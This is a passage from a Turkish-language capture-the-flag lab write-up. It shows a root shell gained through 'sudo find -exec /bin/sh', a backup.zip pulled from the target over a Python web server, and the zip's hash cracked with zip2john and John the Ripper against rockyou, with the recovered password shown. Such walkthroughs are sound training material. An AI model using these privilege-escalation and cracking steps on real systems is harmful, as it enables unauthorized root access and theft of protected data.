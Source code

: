 ````bash
sudo find . -exec /bin/sh \; -quit
whoami
root
````

Artık backup.zip dosyasına erişimimiz var fakat dosya şifreli ve şifreyi kırmak için makinemize indirmemiz gerekiyor.

Hedef makinede python ile web servisi çalıştırıyorum: `python -m http.server 8080`

Çalıştırdığımız web servisinden dosyayı indirebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/FindandCrack/images/1.png?raw=true)


Geriye zip dosyasının şifresini kırmak kaldı. Ben JohnTheRipper aracını kullanacağım. Fakat önce zip dosyasının hash'ini almamız gerekiyor bunun için kullancağımız araç zip2john.

````bash
┌──(root㉿kali)-[~/Downloads]
└─# zip2john backup.zip > hash.txt
ver 2.0 efh 5455 efh 7875 backup.zip/monitors.csv PKZIP Encr: TS_chk, cmplen=115, decmplen=256, crc=063C24FE ts=B320 cs=b320 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/computers.csv PKZIP Encr: TS_chk, cmplen=563, decmplen=1817, crc=B96E8061 ts=B312 cs=b312 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/network-devices.csv PKZIP Encr: TS_chk, cmplen=149, decmplen=332, crc=C1C11408 ts=B325 cs=b325 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/printers.csv PKZIP Encr: TS_chk, cmplen=144, decmplen=326, crc=2457D641 ts=B329 cs=b329 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                                                                                                       
┌──(root㉿kali)-[~/Downloads]
└─# cat hash.txt    
backup.zip:$pkzip$4*1*1*0*8*24*b329*fbcf725d04e4a674a5fad2a37efccec7d216a007113c50ba1abe5b35351a14580b14f3ce*1*0*8*24*b325*78d42b95cd5e5a95e30c16b9f748d14c598efade3469154a1a3da56db5792e3b864db5cb*1*0*8*24*b312*d24c1a34bc884d3220ccc1ecd19bd6dea7baf1da2373ae36087303fd36c5912e6dacfbf7*2*0*73*100*63c24fe*0*46*8*73*b320*a2044185621a592c4c139a57c2f2ab16013bcf476f21fb667ea32793c5fc0d3fdfcedcbfd6cde7289b92b156991587a8f7f293c11a18dfadca2302fdf21fd40607149285086040c8b357ceabc2ebba01ea8973cfd94cc185fdba988ec1de78ff0e2b51bc443422dfbc51569c3eb598cf4835ab*$/pkzip$::backup.zip:monitors.csv, printers.csv, network-devices.csv, computers.csv:backup.zip
````

Artık hash'i kırabiliriz.

````bash
┌──(root㉿kali)-[~/Downloads]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
asdf;lkj         (backup.zip)     
1g 0:00:00:00 DONE (2024-03-30 14:03) 33.33g/s 819200p/s 819200c/s 819200C/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
````
